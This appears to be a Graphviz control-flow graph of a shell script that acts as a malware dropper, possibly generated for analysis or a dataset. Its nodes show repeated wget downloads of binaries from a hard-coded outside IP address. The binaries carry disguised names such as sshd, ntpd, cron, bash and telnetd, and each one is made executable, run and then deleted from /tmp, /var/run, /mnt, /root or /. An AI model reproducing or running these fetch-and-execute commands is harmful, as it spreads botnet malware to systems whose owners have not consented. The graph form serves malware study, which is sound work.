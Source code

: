 digraph "G" {
2 [label=" cd /tmp"];
6 [label=" cd /var/run"];
10 [label=" cd /mnt"];
14 [label=" cd /root"];
18 [label=" cd /"];
22 [label=" wget http://96.8.117.135/ntpd"];
26 [label=" chmod +x ntpd"];
31 [label="BINARY_COMMAND"];
34 [label=" rm -rf ntpd"];
39 [label=" cd /tmp"];
43 [label=" cd /var/run"];
47 [label=" cd /mnt"];
51 [label=" cd /root"];
55 [label=" cd /"];
59 [label=" wget http://96.8.117.135/sshd"];
63 [label=" chmod +x sshd"];
68 [label="BINARY_COMMAND"];
71 [label=" rm -rf sshd"];
76 [label=" cd /tmp"];
80 [label=" cd /var/run"];
84 [label=" cd /mnt"];
88 [label=" cd /root"];
92 [label=" cd /"];
96 [label=" wget http://96.8.117.135/openssh"];
100 [label=" chmod +x openssh"];
105 [label="BINARY_COMMAND"];
108 [label=" rm -rf openssh"];
113 [label=" cd /tmp"];
117 [label=" cd /var/run"];
121 [label=" cd /mnt"];
125 [label=" cd /root"];
129 [label=" cd /"];
133 [label=" wget http://96.8.117.135/bash"];
137 [label=" chmod +x bash"];
142 [label="BINARY_COMMAND"];
145 [label=" rm -rf bash"];
150 [label=" cd /tmp"];
154 [label=" cd /var/run"];
158 [label=" cd /mnt"];
162 [label=" cd /root"];
166 [label=" cd /"];
170 [label=" wget http://96.8.117.135/tftp"];
174 [label=" chmod +x tftp"];
179 [label="BINARY_COMMAND"];
182 [label=" rm -rf tftp"];
187 [label=" cd /tmp"];
191 [label=" cd /var/run"];
195 [label=" cd /mnt"];
199 [label=" cd /root"];
203 [label=" cd /"];
207 [label=" wget http://96.8.117.135/wget"];
211 [label=" chmod +x wget"];
216 [label="BINARY_COMMAND"];
219 [label=" rm -rf wget"];
224 [label=" cd /tmp"];
228 [label=" cd /var/run"];
232 [label=" cd /mnt"];
236 [label=" cd /root"];
240 [label=" cd /"];
244 [label=" wget http://96.8.117.135/cron"];
248 [label=" chmod +x cron"];
253 [label="BINARY_COMMAND"];
256 [label=" rm -rf cron"];
261 [label=" cd /tmp"];
265 [label=" cd /var/run"];
269 [label=" cd /mnt"];
273 [label=" cd /root"];
277 [label=" cd /"];
281 [label=" wget http://96.8.117.135/ftp"];
285 [label=" chmod +x ftp"];
290 [label="BINARY_COMMAND"];
293 [label=" rm -rf ftp"];
298 [label=" cd /tmp"];
302 [label=" cd /var/run"];
306 [label=" cd /mnt"];
310 [label=" cd /root"];
314 [label=" cd /"];
318 [label=" wget http://96.8.117.135/pftp"];
322 [label=" chmod +x pftp"];
327 [label="BINARY_COMMAND"];
330 [label=" rm -rf pftp"];
335 [label=" cd /tmp"];
339 [label=" cd /var/run"];
343 [label=" cd /mnt"];
347 [label=" cd /root"];
351 [label=" cd /"];
355 [label=" wget http://96.8.117.135/sh"];
359 [label=" chmod +x sh"];
364 [label="BINARY_COMMAND"];
367 [label=" rm -rf sh"];
372 [label=" cd /tmp"];
376 [label=" cd /var/run"];
380 [label=" cd /mnt"];
384 [label=" cd /root"];
388 [label=" cd /"];
392 [label=" wget http://96.8.117.135/ "];
396 [label=" chmod +x  "];
401 [label=" ./ "];
404 [label=" rm -rf  "];
409 [label=" cd /tmp"];
413 [label=" cd /var/run"];
417 [label=" cd /mnt"];
421 [label=" cd /root"];
425 [label=" cd /"];
429 [label=" wget http://96.8.117.135/apache2"];
433 [label=" chmod +x apache2"];
438 [label="BINARY_COMMAND"];
441 [label=" rm -rf apache2"];
446 [label=" cd /tmp"];
450 [label=" cd /var/run"];
454 [label=" cd /mnt"];
458 [label=" cd /root"];
462 [label=" cd /"];
466 [label=" wget http://96.8.117.135/telnetd"];
470 [label=" chmod +x telnetd"];
475 [label="BINARY_COMMAND"];
478 [label=" rm -rf telnetd"];
2 -> 6  [key=0];
2 -> 22  [key=0];
6 -> 10  [key=0];
6 -> 22  [key=0];
10 -> 14  [key=0];
10 -> 22  [key=0];
14 -> 18  [key=0];
14 -> 22  [key=0];
18 -> 22  [key=0];
22 -> 26  [key=0];
26 -> 31  [key=0];
31 -> 34  [key=0];
34 -> 39  [key=0];
39 -> 43  [key=0];
39 -> 59  [key=0];
43 -> 47  [key=0];
43 -> 59  [key=0];
47 -> 51  [key=0];
47 -> 59  [key=0];
51 -> 55  [key=0];
51 -> 59  [key=0];
55 -> 59  [key=0];
59 -> 63  [key=0];
63 -> 68  [key=0];
68 -> 71  [key=0];
71 -> 76  [key=0];
76 -> 80  [key=0];
76 -> 96  [key=0];
80 -> 84  [key=0];
80 -> 96  [key=0];
84 -> 88  [key=0];
84 -> 96  [key=0];
88 -> 92  [key=0];
88 -> 96  [key=0];
92 -> 96  [key=0];
96 -> 100  [key=0];
100 -> 105  [key=0];
105 -> 108  [key=0];
108 -> 113  [key=0];
113 -> 117  [key=0];
113 -> 133  [key=0];
117 -> 121  [key=0];
117 -> 133  [key=0];
121 -> 125  [key=0];
121 -> 133  [key=0];
125 -> 129  [key=0];
125 -> 133  [key=0];
129 -> 133  [key=0];
133 -> 137  [key=0];
137 -> 142  [key=0];
142 -> 145  [key=0];
145 -> 150  [key=0];
150 -> 154  [key=0];
150 -> 170  [key=0];
154 -> 158  [key=0];
154 -> 170  [key=0];
158 -> 162  [key=0];
158 -> 170  [key=0];
162 -> 166  [key=0];
162 -> 170  [key=0];
166 -> 170  [key=0];
170 -> 174  [key=0];
174 -> 179  [key=0];
179 -> 182  [key=0];
182 -> 187  [key=0];
187 -> 191  [key=0];
187 -> 207  [key=0];
191 -> 195  [key=0];
191 -> 207  [key=0];
195 -> 199  [key=0];
195 -> 207  [key=0];
199 -> 203  [key=0];
199 -> 207  [key=0];
203 -> 207  [key=0];
207 -> 211  [key=0];
211 -> 216  [key=0];
216 -> 219  [key=0];
219 -> 224  [key=0];
224 -> 228  [key=0];
224 -> 244  [key=0];
228 -> 232  [key=0];
228 -> 244  [key=0];
232 -> 236  [key=0];
232 -> 244  [key=0];
236 -> 240  [key=0];
236 -> 244  [key=0];
240 -> 244  [key=0];
244 -> 248  [key=0];
248 -> 253  [key=0];
253 -> 256  [key=0];
256 -> 261  [key=0];
261 -> 265  [key=0];
261 -> 281  [key=0];
265 -> 269  [key=0];
265 -> 281  [key=0];
269 -> 273  [key=0];
269 -> 281  [key=0];
273 -> 277  [key=0];
273 -> 281  [key=0];
277 -> 281  [key=0];
281 -> 285  [key=0];
285 -> 290  [key=0];
290 -> 293  [key=0];
293 -> 298  [key=0];
298 -> 302  [key=0];
298 -> 318  [key=0];
302 -> 306  [key=0];
302 -> 318  [key=0];
306 -> 310  [key=0];
306 -> 318  [key=0];
310 -> 314  [key=0];
310 -> 318  [key=0];
314 -> 318  [key=0];
318 -> 322  [key=0];
322 -> 327  [key=0];
327 -> 330  [key=0];
330 -> 335  [key=0];
335 -> 339  [key=0];
335 -> 355  [key=0];
339 -> 343  [key=0];
339 -> 355  [key=0];
343 -> 347  [key=0];
343 -> 355  [key=0];
347 -> 351  [key=0];
347 -> 355  [key=0];
351 -> 355  [key=0];
355 -> 359  [key=0];
359 -> 364  [key=0];
364 -> 367  [key=0];
367 -> 372  [key=0];
372 -> 376  [key=0];
372 -> 392  [key=0];
376 -> 380  [key=0];
376 -> 392  [key=0];
380 -> 384  [key=0];
380 -> 392  [key=0];
384 -> 388  [key=0];
384 -> 392  [key=0];
388 -> 392  [key=0];
392 -> 396  [key=0];
396 -> 401  [key=0];
401 -> 404  [key=0];
404 -> 409  [key=0];
409 -> 413  [key=0];
409 -> 429  [key=0];
413 -> 417  [key=0];
413 -> 429  [key=0];
417 -> 421  [key=0];
417 -> 429  [key=0];
421 -> 425  [key=0];
421 -> 429  [key=0];
425 -> 429  [key=0];
429 -> 433  [key=0];
433 -> 438  [key=0];
438 -> 441  [key=0];
441 -> 446  [key=0];
446 -> 450  [key=0];
446 -> 466  [key=0];
450 -> 454  [key=0];
450 -> 466  [key=0];
454 -> 458  [key=0];
454 -> 466  [key=0];
458 -> 462  [key=0];
458 -> 466  [key=0];
462 -> 466  [key=0];
466 -> 470  [key=0];
470 -> 475  [key=0];
475 -> 478  [key=0];
}
